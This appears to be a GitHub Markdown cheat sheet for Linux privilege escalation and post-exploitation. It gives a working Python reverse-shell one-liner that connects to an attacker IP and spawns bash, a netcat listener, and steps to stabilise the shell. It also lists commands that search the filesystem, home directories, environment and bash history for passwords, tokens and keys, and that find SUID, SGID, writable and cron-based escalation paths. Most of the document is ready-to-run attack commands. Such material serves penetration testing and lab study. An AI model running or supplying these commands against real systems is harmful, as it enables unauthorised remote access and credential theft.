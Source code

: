 # BASIC PRIVILEGE ESCALATION ENUMERATION & EXPLOITATION
This document contains a list of useful commands for privilege escalation in Unix-like operating systems. These commands can help identify potential vectors for escalating privileges on a system. Most of them should be exploitable with the help of [GTFOBins](https://gtfobins.github.io/).

## Python Reverse Shell & Netcat Listener
It connects a compromised machine to an attacker's IP for remote command execution, while a Netcat listener waits on a specified port to receive incoming connections from such reverse shells.
#### Python TTY Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.x.y",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```
#### Netcat listener
```
nc -nvlp 4444
```

## Upgrading to a TTY Shell
A TTY (teletypewriter) shell is a command-line interface that allows users to interact with the operating system through a terminal, enabling input and output of text commands and responses in a real-time, interactive session. It simulates the behavior of traditional teletypes, providing a way to execute commands and scripts in a Unix-like environment. There are a total 3 steps to spawning a successful TTY Shell:
- STEP-1: Run the below command to spawn a better-featured pretty-looking bash shell without tab autocomplete or the arrow keys.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
- STEP-2: Run the below command to set or modify the PATH environment variable in a Unix-like OS.
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
```
- STEP-3: Run the below command to access term commands such as `clear`.
```
export TERM=xterm-256color
```
- STEP-4: Background the Session using the SHORTCUT: `CTRL + Z`.
- STEP-5: Run the below command to turn off the terminal echo (allowing tab autocompletes, arrow keys, and Ctrl + C process killing).
```
stty raw -echo; fg; reset
```
- STEP-6: (Optional) Run the below command to Set the terminal size to 200*200 for better readability.
```
stty columns 200 rows 200
```
---
## BASIC POST-EXPLOITATION ENUMERATION COMMANDS

### Finding Secret Files
- Searching for files containing sensitive information such as API keys, tokens, or passwords. It lists files based on specific keywords often associated with sensitive data.
```
find / -type f -exec ls -lsha {} + | grep -E -i '.secret|secret|token|key|api|password|username|db_password|mysql_password|mysql_user|databasepassword|mysql_root_password|mysql_password|credentials|creds|pass'
```

### Finding SUID Files
- Finding the files with SUID (Set User ID) execution permissions of the file Owner which could be used to escalate privileges.
```
find / -perm -4000 -type f 2>/dev/null
```

### Finding SGID Files
- Finding the files with SGID (Set Group ID) execution permissions of the file Owner's group which could be used to escalate privileges.
```
find / -perm -2000 -type f 2>/dev/null
```

### Finding Capabilities of Files
- Recursively listing the capabilities of all files on the root file system, suppressing error messages.
```
getcap -r / 2>/dev/null
```

### Checking Permissions on /etc/passwd & /etc/shadow
- This command checks the permissions of the /etc/passwd file, which may be writable and could allow unauthorized modifications.
```
ls -la /etc/passwd && ls -la /etc/shadow
```

### Listing Scheduled Cron Jobs
- Viewing cron jobs can reveal scheduled tasks that may be leveraged for privilege escalation.
```
cat /etc/crontab && ls /etc/cron.* && crontab -l && ls /var/spool/cron/crontabs
```

### Searching for Passwords in Home Directory
- Searches for occurrences of the term "password" recursively within the /home directory, which may help locate files containing sensitive information.
```
cd /home && grep -rnH "password"
```

### Checking Sudo Permissions
- Finding out what SUDO privileges the current has (If any):
```
sudo -l
```

### Environment Variables
- This command lists all environment variables, which can sometimes include sensitive information like passwords.
```
env
```

### Accessing User's Bash History
- The following command displays the contents of the `.bash_history` file, which may contain sensitive information such as passwords that were previously entered in the terminal.
```
cat .bash_history
```

### Checking User and Host Information
- Checking user and group details can provide insight into potential privilege escalation opportunities.
```
whoami && id && hostname
```

### Finding Writable Files and Directories
- Identifying files and directories writable by the user can help in various privilege escalation scenarios.

Writable Files
```
find / -writable -type f 2>/dev/null
```
Writable Directories
```
find / -writable -type d 2>/dev/null
```

### Finding Executables in PATH
- Finding executables in the PATH environment variable can help identify potentially exploitable scripts or binaries.
```
echo $PATH | tr ':' '\n' | xargs -I {} find {} -type f -executable 2>/dev/null
```

Feel free to modify or expand upon this template based on your needs. If you have any specific commands or sections you’d like to add, let me know!
